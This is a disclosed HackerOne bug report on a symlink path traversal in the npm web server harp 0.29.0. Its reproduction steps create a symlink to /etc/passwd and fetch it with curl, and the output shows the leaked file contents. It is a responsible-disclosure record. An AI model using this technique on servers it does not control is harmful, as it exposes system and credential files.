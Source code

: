 # [harp] Path traversal using symlink

## Report Details
- **Report ID**: 530289
- **URL**: https://hackerone.com/reports/530289
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2019-04-06T18:40:03.240Z
- **Disclosed**: 2019-04-09T09:28:48.626Z

## Reporter
- **Username**: skyn3t
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: nodejs-ecosystem

## Vulnerability Information
In reference to #453820

# Module

**module name:** harp
**version:** 0.29.0
**npm page:** `https://www.npmjs.com/package/harp`

## Module Description

zero-configuration web server with built in pre-processing

## Module Stats

2,679 downloads in the last week

# Vulnerability
Path traversal using symlink.

## Vulnerability Description

Similar to #403703. It can be used to list any file in another folder of web root.

## Steps To Reproduce

- Install harpjs

```
yarn global add harp
```

- Run harp server

```
harp server
```

- Create a symlink inside your project directory.

```
$ ln -s ../../../../../etc/passwd sympasswd
```

- Request the file with curl

```
$ curl --path-as-is 0.0.0.0:9000/sympasswd
root:x:0:0:root:/root:/bin/bash
...
```

## Patch
Educating users about this behaviour in the docs and probably providing a flag to disable/enable following symlinks.

## Supporting Material/References:


- Ubuntu 16.04
- node v11.3.0
- npm 6.4.1


# Wrap up

- I contacted the maintainer to let them know: Y
- I opened an issue in the related repository: Y

## Impact

You can access files outside project directory through server via symlink.

## Attachments
No attachments
